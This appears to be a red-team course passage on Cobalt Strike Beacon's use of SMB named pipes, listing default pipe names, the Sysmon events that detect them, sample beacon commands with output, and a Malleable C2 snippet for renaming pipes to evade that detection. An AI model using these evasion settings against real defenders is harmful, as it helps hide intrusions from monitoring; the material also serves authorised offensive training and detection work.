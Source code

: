 Beacon uses SMB named pipes in four main ways.

1.  Retrieve output from some fork and run commands such as execute-assembly and powerpick.
2.  Connect to Beacon's SSH agent (not something we use in the course).
3.  The SMB Beacon's named pipe stager (also not often used).
4.  C2 comms in the SMB Beacon itself.

Sysmon event ID 17 (pipe created) and 18 (pipe connected) can be used to spot the default pipe name used by Beacon in these situations.

The default pipe name for post-ex commands is `postex_####`; the default for the SSH agent is `postex_ssh_####`; the default for the SMB Beacon's stager is `status_##`; and the default for the main SMB Beacon C2 is `msagent_##`.  In each case, the #'s are replaced with random hex values.

Execute a fork and run command:

beacon> powerpick Get-ChildItem

  

We should get an event like this (the image name is the spawnto process):

Pipe Created:
EventType: CreatePipe
ProcessId: 4664
PipeName: \postex_7b88
Image: C:\Windows\system32\notepad.exe

  

We get the same by spawning an SMB Beacon.

beacon> spawn x64 smb
[*] Tasked beacon to spawn (x64) windows/beacon_bind_pipe (\\.\pipe\msagent_36)
[+] host called home, sent: 255536 bytes
[+] established link to child beacon: 10.10.120.106

Pipe Created:
EventType: CreatePipe
ProcessId: 5044
PipeName: \msagent_36
Image: C:\Windows\system32\notepad.exe

  

Many Sysmon configurations only log specific (known) pipe names, such as the defaults used in various toolsets.  So in most cases, changing the pipe names to something relatively random will get you by most times.  Some operators choose to use names that are used by legitimate applications - a good example is the "mojo" pipe name that Google Chrome uses.  If you go down this route, make sure your ppid and spawnto match this pretext, otherwise you're going to create anomalous logs.

The `pipename_stager` and `ssh_pipename` Malleable C2 directives are global options (not part of a specific block).

To change the pipe name used in post-ex commands, use the `set pipename` directive in the `post-ex` block.  This can take a comma-separated list of names, and can include the # character for some randomisation.

post-ex {
        set pipename "totally_not_beacon, legitPipe_##";
}


